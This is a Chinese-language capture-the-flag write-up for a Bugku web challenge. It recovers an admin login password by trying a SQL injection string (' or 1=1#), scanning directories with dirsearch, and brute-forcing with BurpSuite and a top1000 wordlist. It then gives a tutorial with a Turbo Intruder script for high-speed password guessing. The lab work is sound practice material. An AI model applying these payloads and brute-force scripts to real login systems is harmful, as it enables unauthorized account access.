

# Web-bp-解题思路
网址:
<https://ctf.bugku.com/challenges/detail/id/314.html>

题目描述:
```
提　　示: 弱密码top1000?z?????
描　　述: 请找出密码
```

资源:
`启动场景`

## 解题过程
网址直接访问得到一个用户登录界面.

打开开发人员工具,源代码选项卡下查看索引文件内容`layui/索引`,
将其内容保存为`website/layui/index.html`,
其内容如下:
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <title>Intruder</title>
  <meta name="renderer" content="webkit">
  <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
  <link rel="stylesheet" href="layui/css/layui.css"  media="all">
  <style>
  #frm input{
	width: 200px;
  }
  </style>
</head>
<body>

             
<fieldset class="layui-elem-field layui-field-title" style="margin-top: 20px;">
  <legend>登录</legend>
</fieldset>
 
<form id="frm" class="layui-form" action="check.php" method="POST">
  <div class="layui-form-item">
    <label class="layui-form-label">账号:</label>
    <div class="layui-input-block">
      <input type="text" name="username" lay-verify="title" autocomplete="off" placeholder="请输入账号" value="admin" class="layui-input">
    </div>
  </div>
  <div class="layui-form-item">
    <label class="layui-form-label">密码:</label>
    <div class="layui-input-block">
      <input type="password" name="password" lay-verify="title" autocomplete="off" placeholder="请输入密码" class="layui-input">
    </div>
  </div>
  <div class="layui-form-item">
    <button class="layui-btn" lay-submit="" lay-filter="demo2">提交</button>
  </div>
</form>

<script src="layui/layui.js" charset="utf-8"></script>
<!-- 注意:如果你直接复制所有代码到本地,上述 JS 路径需要改成你本地的 -->
<script>

</script>

</body>
</html>
```
尝试页面密码栏输入`SQL`注入万能密码`' or 1=1#`并提交.

发现地址栏变为`/check.php`,并显示`Wrong account or password!`.

将源代码选项下`layui/css/check.php`内容保存为
`website/layui/css/check.php`,内容如下:
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <title>登录检测</title>
  <meta name="renderer" content="webkit">
  <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
  <link rel="stylesheet" href="layui/css/layui.css"  media="all">
  <style>
  </style>
</head>
<body>
<div id="d"><div>
<script>
  var r = {code: 'bugku10000'}
  if(r.code == 'bugku10000'){
        console.log('e');
	document.getElementById('d').innerHTML = "Wrong account or password!";
  }else{
        console.log('0');
        window.location.href = 'success.php?code='+r.code;
  }
  
  </script>
</body>
</html>
```
发现只要`if(r.code == 'bugku10000')`分支不通过,
就能显示`success.php?code='+r.code`的内容,可能包含`flag`字符串.

直接地址栏访问`success.php`试一下:
返回响应内容:
```html
no!
```
看起来有所防备我们这一手.

复制`check.php`的响应标头:
```
HTTP/1.1 200 OK
Date: Tue, 04 Aug 2026 02:28:36 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.6
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 459
Connection: close
Content-Type: text/html
```
发现是`PHP`服务器.

使用`dirsearch`进行目录搜索:
```bash
dirsearch -u http://160.202.254.160:10598/ -e php,js

  _|. _ _  _  _  _ _|_    v0.5.0
 (_||| _) (/_(_|| (_| )

Extensions: php, js | HTTP method: GET | Threads: 25 | Wordlist size: 10163

Target: http://160.202.254.160:10598/

[10:31:08] Scanning: 
[10:40:31] 200 -   697B - /check.php                                     
[10:44:33] 200 -    2KB - /index.html                                    
[10:49:38] 403 -   299B - /server-status/                                
                                                                         
Too many request errors

Task Completed
```
和我们已知的信息一致.看来只能进行密码暴力破解.
使用`BurpSuite`进行密码暴力破解,
按照题目要求:使用`CTF/Tools/Web-pwd_dict/PasswordDic/top1000.txt`密码字典.

在所有的`200`状态码的密码登录请求中,
所有响应`Length`都为`932`,`Word`都为`336`,
`Anomaly rank`都为`47`(当然除了以下这个请求):



所以推测密码就是`zxc123`.

回到原来登录页面输入`zxc123`得到如下响应:
```
flag{4af6b42a03e3190efb8623482fab3b3a}
```
尝试提交`flag{4af6b42a03e3190efb8623482fab3b3a}`,提交通过,答题结束.

## `BurpSuite`拦截提交请求,构造提交请求模板
`BurpSuite`进行暴力破解的时候有一个技巧:
在`BurpSuite`内置浏览器,打开目标网页,输入完账号和密码之后,进行提交之前,
可以回到`BurpSuite`主界面,点击选项卡`Proxy>Intercept`下的`Intercept off`,
此时变为`Intercept on`,意思是拦截请求.

在`BurpSuite`内置浏览器进行提交,
回到`BurpSuite`主界面,发现`Proxy>Intercept`下出现了被拦截的提交请求.

这请求里面包含了账户和密码的信息.
```
POST /check.php HTTP/1.1
Host: 160.202.254.160:10598
Content-Length: 27
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
Origin: http://160.202.254.160:10598
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://160.202.254.160:10598/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=admin&password=123
```
非常适合用来构造用于密码暴力破解的请求模板结构:
```
POST /check.php HTTP/1.1
Host: 160.202.254.160:10598
Content-Length: 27
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
Origin: http://160.202.254.160:10598
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://160.202.254.160:10598/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=admin&password=$123$
```
### 使用`BurpSuite`的插件`Turbo Intruder`进行极速密码暴力破解
#### 为什么要使用`Turbo Intruder`,而不是使用`BurpSuite`自带的`Intruder`?
`Turbo Intruder`是一个`Burp Suite`扩展插件,用于发送大量`HTTP`请求并分析结果,
可拥抱十亿请求攻击.

它旨在处理那些需要异常速度|持续时间或复杂性的攻击来补充`Burp Intruder`.

插件原理:

使用第一次请求的时候就建立好连接,
后续获取资源都是通过这条连接来获取资源的长连接,
它还使用了`HTTP`管道(`HTTP Pipelining`)的方式来发送请求,
这种方式会在等待上一个请求响应的同时,发送下一个请求.
而在发送过程中不需要等待服务器对前一个请求的响应;
只不过,客户端还是要按照发送请求的顺序来接收响应.

通过`HTTP`管道的方式发起请求是短连接(`Connection: close`)速度的 6000%.

#### 安装`Turbo Intruder`插件
在`BurpSuite`主界面`Extensions>BApp Store`选项卡下搜索框中搜索`Turbo Intruder`,
找到之后,鼠标左键选中,点击右侧插件简介页面上方的`Install`按钮.
等待安装结束即可(此时`Install`按钮会变为`Reinstall`字样).

#### 使用`Turbo Intruder`插件进行密码破解
在`BurpSuite`的`Proxy>Intercept`下或者`Proxy>HTTP history`下鼠标右键请求,
点击`Extensions>Turbo intruder>Send to turbo intruder`.

会打开`turbo intruder`子窗口.
会发现有两个文本编辑框:
1. 请求模板
2. 执行脚本

说明一下请求模板修改方式,以如下的网络请求为例:
```
POST /check.php HTTP/1.1
Host: 160.202.254.160:10598
Content-Length: 27
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
Origin: http://160.202.254.160:10598
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://160.202.254.160:10598/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=admin&password=123
                        ^ 这里修改为 %s ,用于替换密码字典中的每一行密码
```
说明一下执行脚本的修改逻辑:
```python
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False,
                           engine=Engine.THREADED
                           )

    for x in range(10, 20):
        engine.queue(target.req, x)

    for word in open('D:\\Git\\userdata\\CTF\\Tools\\Web-pwd_dict\\PasswordDic\\top1000.txt'):
                    # ^ 这里修改为你的密码字典的本地路径
        engine.queue(target.req, word.rstrip())


def handleResponse(req, interesting):
    table.add(req)
```
修改完成之后,点击脚本右侧的`Save`按钮保存修改.

之后点击界面最下方的`Attack`长条按钮,开始攻击.

此时会打开攻击界面窗口,上方攻击请求的详细界面,
下方是请求原文和服务器响应的详细界面.

等待攻击完毕点击请求详情界面的`Length`/`Word`/`Anomaly rank`进行排序,
找到`Length`/`Word/Anomaly rank`明显不同的响应(状态为`200`的成功请求).
鼠标左键单击该请求,
在下方右侧文本框就可以查看服务器返回的响应内容,就可以知道是否破解密码成功.
此时查看下方左侧文本框该请求的原文,就可以得到发起此请求所用的密码.

注意:有些出题人特别刁钻,即便是密码登录成功,也返回一样的响应.

如果想中途/退出,可以点击攻击窗口界面最下方的`Halt`长条按钮进行中断.
